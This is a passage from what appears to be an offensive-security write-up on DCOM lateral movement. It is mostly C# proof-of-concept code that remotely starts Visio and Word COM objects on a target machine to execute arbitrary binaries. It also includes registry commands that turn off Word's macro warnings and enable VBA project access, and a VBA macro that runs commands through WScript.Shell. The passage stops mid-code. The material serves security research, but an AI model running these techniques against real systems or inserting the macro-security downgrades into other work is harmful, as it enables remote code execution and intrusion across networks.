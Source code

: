Translated in C#, it would appear like the following:

```cs
public static void VisioAddonEx(string target, string binary, string arg)
{
    try
    {
        var type = Type.GetTypeFromProgID("Visio.InvisibleApp", target);
        if (type == null)
        {
            Console.WriteLine(" [x] Visio not installed");
            return;
        }

        var obj = Activator.CreateInstance(type);
        var addons = obj.GetType().InvokeMember("Addons", BindingFlags.GetProperty, null, obj, null);
        var addon = addons.GetType()
            .InvokeMember(@"Add", BindingFlags.InvokeMethod, null, addons, new object[] { binary });
        // Executing Addon
        addon.GetType().InvokeMember("Run", BindingFlags.InvokeMethod, null, addon, new object[] { arg });
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```

### 

Last but not least, it is possible to execute arbitrary object directly executing VBA project into almost any office COM automation object (Excel, Word, PowerPoint, Access).

Word was chosen for the PoC code, as surely is the most widely used, and because Excel had already been covered by other, more reliable, methods.

That doesn't mean the following method is not reliable, but presents a major drawback. Indeed, in order to use this method, two settings in Word must be enabled in the context of the targeted user:

* Enable all macros (not recommended; potentially dangerous code can run)
* Trust access to the VBA project object model

The two options can be enabled via GUI, under Options->Trust Center->Macro Settings, or via Windows Registry, using the following commands:

```
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security" /v VBAWarnings /t REG_DWORD /d 1
reg add "HKCU\Software\Microsoft\Office\16.0\Word\Security" /v AccessVBOM /t REG_DWORD /d 1
```

**Note:** 16.0 is for version >=2016.


```cs
public static void OfficeMacro(string target, string binary, string arg)
{
    Console.WriteLine($"[*] Setting up Word Office Macro");
    try
    {
        var type = Type.GetTypeFromProgID("Word.Application", target);
        var code = $"{binary} {arg}";
        var macro = $@"Sub Execute()
Dim wsh As Object
Set wsh = CreateObject(""WScript.Shell"")
wsh.Run ""{code}""
Set wsh = Nothing
```